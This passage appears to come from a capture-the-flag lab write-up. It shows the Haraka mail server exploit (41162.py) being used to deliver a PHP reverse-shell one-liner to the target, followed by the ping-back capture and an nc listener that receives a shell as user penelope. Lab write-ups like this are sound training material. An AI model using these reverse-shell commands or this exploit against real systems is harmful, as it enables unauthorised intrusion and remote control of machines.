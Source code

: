 
After a about one minute, I got a ping back:

    
    
    root@kali# tcpdump -i tun0 -n icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    12:55:36.153998 IP 10.10.10.113 > 10.10.14.14: ICMP echo request, id 13394, seq 1, length 64
    12:55:36.154033 IP 10.10.14.14 > 10.10.10.113: ICMP echo reply, id 13394, seq 1, length 64
    

I had a hard time with a lot of common reverse shells, but I got the php one
to work. It’s important to escape the inner `"` and `$`:

    
    
    root@kali# python 41162.py -c "php -r '\$sock=fsockopen(\"10.10.14.14\",443);exec(\"/bin/sh -i <&3 >&3 2>&3\");'" -t penelope@redcross.htb -m 10.10.10.113                              
    ##     ##    ###    ########     ###    ##    ## #### ########  ####
    ##     ##   ## ##   ##     ##   ## ##   ##   ##   ##  ##     ##  ##
    ##     ##  ##   ##  ##     ##  ##   ##  ##  ##    ##  ##     ##  ##
    ######### ##     ## ########  ##     ## #####     ##  ########   ##
    ##     ## ######### ##   ##   ######### ##  ##    ##  ##   ##    ##
    ##     ## ##     ## ##    ##  ##     ## ##   ##   ##  ##    ##   ##
    ##     ## ##     ## ##     ## ##     ## ##    ## #### ##     ## ####
    
    -o- by Xychix, 26 January 2017 ---
    -o- xychix [at] hotmail.com ---
    -o- exploit haraka node.js mailserver <= 2.8.8 (with attachment plugin activated) --
    
    -i- info: https://github.com/haraka/Haraka/pull/1606 (the change that fixed this)
    
    Send harariki to penelope@redcross.htb, attachment saved as harakiri-20190403-125710.zip, commandline: php -r '$sock=fsockopen("10.10.14.14",443);exec("/bin/sh -i <&3 >&3 2>&3");' , mailserver 10.10.10.113 is used for delivery
    

And after a minute:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.113.
    Ncat: Connection from 10.10.10.113:35862.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=1000(penelope) gid=1000(penelope) groups=1000(penelope)
    